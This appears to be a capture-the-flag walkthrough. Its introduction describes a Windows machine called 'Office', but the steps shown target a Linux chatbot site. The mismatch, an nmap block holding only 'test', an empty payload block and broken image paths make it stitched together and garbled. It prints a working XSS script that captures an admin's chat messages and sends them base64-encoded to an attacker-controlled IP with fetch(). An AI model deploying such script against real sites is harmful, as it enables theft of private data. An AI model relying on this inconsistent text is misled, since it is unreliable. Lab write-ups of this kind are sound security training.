



Office is a hard-difficulty Windows machine featuring various vulnerabilities including Joomla web application abuse, PCAP analysis to identify Kerberos credentials, abusing LibreOffice macros after disabling the `MacroSecurityLevel` registry value, abusing MSKRP to dump DPAPI credentials and abusing Group Policies due to excessive Active Directory privileges. 

# Reconnaissance
As always, we start with an `nmap` scan of the host.

```console
$ nmap -p- 
test
```

We only find two open ports, `SSH` and `HTTP`, so we will proceed by enumerating the website.

## Website
Browsing to the website, we land on a login page for a `Problem-Solving` chatbot.


We will create a new account. After logging in we can talk to the chatbot and issue the help command. One of the available commands allows us to show previous sent messages.


There is also a contact page and I tried to submit a simple XSS payload:

```http

```


After sending the payload we get a request back. We make a new file called `chat.js` with the following contents.

```
const script = document.createElement('script');
script.src = '/socket.io/socket.io.js';
document.head.appendChild(script);
script.addEventListener('load', function() {
    const res = axios.get(`/user/api/chat`);
    const socket = io('/',{withCredentials: true});
    socket.on('message', (my_message) => {
        fetch("http://10.10.14.167:8888/?c=" + btoa(my_message))
    });
});
```

This script will load the admin users chat messages and send it to our local server.